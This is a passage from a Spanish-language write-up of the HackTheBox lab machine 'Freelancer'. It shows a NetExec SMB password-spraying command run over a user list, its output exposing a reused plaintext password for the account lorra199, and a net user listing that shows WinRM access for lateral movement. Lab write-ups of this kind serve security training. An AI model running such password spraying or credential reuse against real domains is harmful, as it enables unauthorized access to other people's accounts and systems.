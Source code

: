 Esta contraseña es reutilizada por la usuaria `lorra199`:

```bash
❯ nxc smb freelancer.htb -u userlist.txt -p 'PWN3D#l0rr@Armessa199' --continue-on-success
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.5      445    DC               [-] freelancer.htb\mikasaAckerman:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.10.11.5      445    DC               [+] freelancer.htb\lorra199:PWN3D#l0rr@Armessa199
SMB         10.10.11.5      445    DC               [-] freelancer.htb\lkazanof:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.10.11.5      445    DC               [-] freelancer.htb\sqlbackupoperator:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.10.11.5      445    DC               [-] freelancer.htb\MSSQLSERVER:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
SMB         10.10.11.5      445    DC               [-] freelancer.htb\Administrator:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE
```

y posee privilegios para acceder remotamente por WinRM, asi que ya podremos entrar sin problemas utilizando `evil_winrm`:

```bash
PS C:\Users\mikasaAckerman\Desktop> net user lorra199
net user lorra199
User name                    lorra199
Full Name                    
Comment                      IT Support Technician
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/4/2023 8:19:14 AM
Password expires             Never
Password changeable          10/5/2023 8:19:14 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   5/13/2024 11:12:56 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users         *AD Recycle Bin       
The command completed successfully.
```

### Administrator - DC (freelancer.htb)
